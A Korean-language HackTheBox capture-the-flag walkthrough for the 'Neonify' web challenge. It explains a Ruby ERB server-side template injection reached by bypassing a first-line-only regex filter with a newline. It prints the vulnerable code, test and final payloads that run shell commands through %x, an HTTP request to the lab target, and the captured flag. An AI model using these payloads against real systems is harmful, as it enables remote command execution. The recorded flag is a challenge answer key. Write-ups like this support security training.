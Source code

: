 
# HackTheBox Walkthrough - Room: Neonify

**Target IP**: 94.237.57.211:56108  
**Difficulty**: Medium  
**Objective**: Bypass input filtering to perform Ruby ERB template injection and capture the flag.  
![webpage](img/webpage.png)

---

## 🧭 Initial Analysis

### 🌐 웹 페이지 정보

- 입력 폼만 존재, 값을 입력하면 그대로 다시 출력됨
- 특수문자 입력 시 `"Malicious Input Detected"` 메시지 표시됨

---

## 🔍 소스 코드 분석  
![neonrb](img/neonrb.png)

```ruby
post '/' do
  if params[:neon] =~ /^[0-9a-z ]+$/i
    @neon = ERB.new(params[:neon]).result(binding)
  else
    @neon = "Malicious Input Detected"
  end
  erb :'index'
end
```

- `ERB.new(...).result(binding)` → **템플릿 인젝션 (RCE 가능)**
- 하지만 정규식 필터링 `/^[0-9a-z ]+$/i` 로 특수문자는 제한됨

---

## 💡 필터 우회 기법

- 정규식 `/^[0-9a-z ]+$/i` 는 첫 줄만 필터링
- `\n` (개행) 이후는 검사하지 않음 → 우회 가능

### ✅ 입력 예시

```
neon=temp
<%= 7 * 7 %>
```
![regexbypass1](img/regexbypass1.png)

---

### ✅ 필터 우회 페이로드

```text
neon=temp
<%=%x'cat flag.txt'%>
```

→ 개행(`\n`)을 통해 첫 줄은 필터 통과  
→ `ERB`는 아래 줄의 코드를 실행하게 됨

---

## 📤 HTTP 요청 예시

```http
POST / HTTP/1.1
Host: 94.237.57.211:56108
Content-Type: application/x-www-form-urlencoded

neon=temp
<%='cat flag.txt'%>
```
![fail](img/fail.png)

---

### ⚠️ 실패 이유

단순 `cat` 명령은 문자열로 처리되어 출력되며, 실행되지 않음  
→ `%x` 구문을 이용한 shell 실행 필요

---

### ✅ 최종 페이로드

```
neon=temp
<%=%x'cat flag.txt'%>
```

![flag](img/flag.png)

---

## ✅ 플래그 출력 결과

HTML 응답에서 다음과 같이 출력됨:

```html
<h1 class="glow">temp
HTB{r3pl4c3m3n7_s3cur1ty}</h1>
```

🎉 **플래그 획득 성공!**

---

## 🧠 기술 요약

| 기술                     | 설명                                                      |
|--------------------------|-----------------------------------------------------------|
| ERB Template Injection   | Ruby의 템플릿 처리 함수에 사용자 입력이 직접 전달됨           |
| 정규식 우회              | `/^[a-z0-9 ]+$/i` 필터를 개행 문자로 우회 가능                |
| Ruby Shell Execution     | `<%= %x'command' %>` 구문을 통해 시스템 명령 실행             |

---

## 🎯 최종 결과

- **플래그**: `HTB{r3pl4c3m3n7_s3cur1ty}`
- **획득 방법**: ERB Template Injection + Regex Bypass + Ruby Shell Execution

---

## 📚 참고 자료

- https://exploit-notes.hdks.org/exploit/web/framework/ruby/ruby-on-rails-pentesting/  
- https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/  
- https://www.writesoftwarewell.com/call-shell-commands-in-ruby/
